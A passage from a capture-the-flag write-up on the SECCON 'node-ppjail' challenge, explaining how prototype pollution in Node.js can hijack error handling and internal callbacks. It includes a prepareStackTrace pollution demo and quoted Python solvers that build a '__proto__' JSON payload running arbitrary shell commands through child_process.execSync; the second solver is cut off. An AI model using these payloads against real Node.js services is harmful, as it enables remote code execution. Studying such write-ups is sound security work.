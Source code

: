 Therefore, it is equivalent to executing `console.log(src)`, so src will appear in the output.

### node-ppjail (5 solves)

This question allows you to pollute things on the prototype, and the value can be a function, but the problem is that you cannot pollute existing properties.

The solution is to trigger an error and then find out what the Node.js  will do, and then pollute the corresponding properties.

A simple example is:

``` js
Object.prototype.prepareStackTrace = function(){
  console.log('pwn')
}
Object.toString.arguments
```

The output is:

```
pwn
/js/pp.js:4
Object.toString.arguments
                ^

[TypeError: 'caller', 'callee', and 'arguments' properties may not be accessed on strict mode functions or the arguments objects for calls to them]

Node.js v20.0.0
```

As for how to find this attribute, it seems like a good choice to patch V8 by learning from [maple](https://blog.maple3142.net/2023/09/17/seccon-ctf-2023-quals-writeups/#sandbox).

The author has found two other methods, which are recorded here for future reference. The source is the [author's writeup](https://blog.arkark.dev/2023/09/21/seccon-quals/):

``` py
def solve1() -> str:
    # Solution 1:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/fixed_queue.js#L81
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/process/task_queues.js#L77
            "1": {
                "callback": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
        },
    })


def solve2() -> str:
    # Solution 2:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/util/inspect.js#L1064
            "circular": {
                "get": {
```